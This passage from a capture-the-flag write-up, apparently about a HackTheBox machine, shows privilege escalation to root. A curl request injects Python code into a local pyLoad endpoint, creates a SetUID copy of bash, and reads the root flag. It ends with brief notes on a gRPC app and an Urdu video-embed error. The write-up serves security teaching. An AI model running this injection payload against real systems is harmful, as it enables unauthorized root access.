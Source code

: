     sau@pc:~$ ls -l /tmp/0xdf
    -rw-r--r-- 1 root root 0 May 24 17:46 /tmp/0xdf



#### Shell

I'll change the payload from creating a file to making a SetUID / SetGID
copy of `bash`:



    oxdf@hacky$ curl -d 'jk=pyimport os;os.system("cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/0xdf");f=function f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' http://127.0.0.1:9666/flash/addcrypted2
    Could not decrypt key



Back in my shell, I'll run it (with `-p` to not drop privs):



    sau@pc:~$ /tmp/0xdf -p
    0xdf-5.0# id
    uid=1001(sau) gid=1001(sau) euid=0(root) egid=0(root) groups=0(root),1001(sau)



With that I can read `root.txt`:



    0xdf-5.0# cat root.txt
    d88264b0************************



## Beyond Root

I thought it would be interesting to see how the GRPC application is set
up and configured, and I find it in `/opt`:



    root@pc:/opt/app# ls
    __pycache__  app.proto  app.py  app_pb2.py  app_pb2_grpc.py  middle.py  sqlite.db



The GRPC Python module creates the `app_pb2.py` and `app_pb2_grpc.py`
files from the `app.proto` file, and then `app.py` uses those to run the
service. [This video](https://www.youtube.com/watch?v=c1XGbS4uRlw) has
more details:


# ایک خرابی پیش آ گئی۔ {#ایک-خرابی-پیش-آ-گئی .message}

[اس ویڈیو کو www.youtube.com پر دیکھنے کی کوشش
کریں](https://www.youtube.com/watch?v=c1XGbS4uRlw){target="_blank"} یا
اگر آپ کے براؤزر میں JavaScript غیر فعال ہے تو اسے فعال کریں۔






